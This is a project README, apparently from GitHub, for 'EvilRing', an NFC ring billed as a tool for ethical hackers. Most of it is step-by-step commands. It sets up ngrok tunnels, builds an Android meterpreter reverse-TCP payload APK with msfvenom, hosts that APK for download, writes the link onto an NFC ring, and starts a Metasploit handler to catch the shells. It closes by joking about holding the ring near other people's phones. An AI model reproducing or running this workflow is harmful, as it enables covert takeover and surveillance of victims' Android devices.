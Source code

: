 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:
1. 
  Install ngrok using the following commands:
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xzvf ngrok-v3-stable-linux-amd64.tgz
chmod +x ngrok
sudo mv ngrok /usr/local/bin/ngrok
rm ngrok-v3-stable-linux-amd64.tgz
ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`

2.
  Create an ngrok TCP tunnel
(Free Version)
`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.
`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3.
  Generate your payload with msfvenom, change the ngrok variables:
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4.
  Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
`python3 -m http.server 8080
./ngrok http 8080`

5.
  Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6.
  On your command and control open msfconsole:
`msfconsole -q

(inside msfconsole) 
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
run`
  
7. 
  (Dont) go an hold onto some phones!
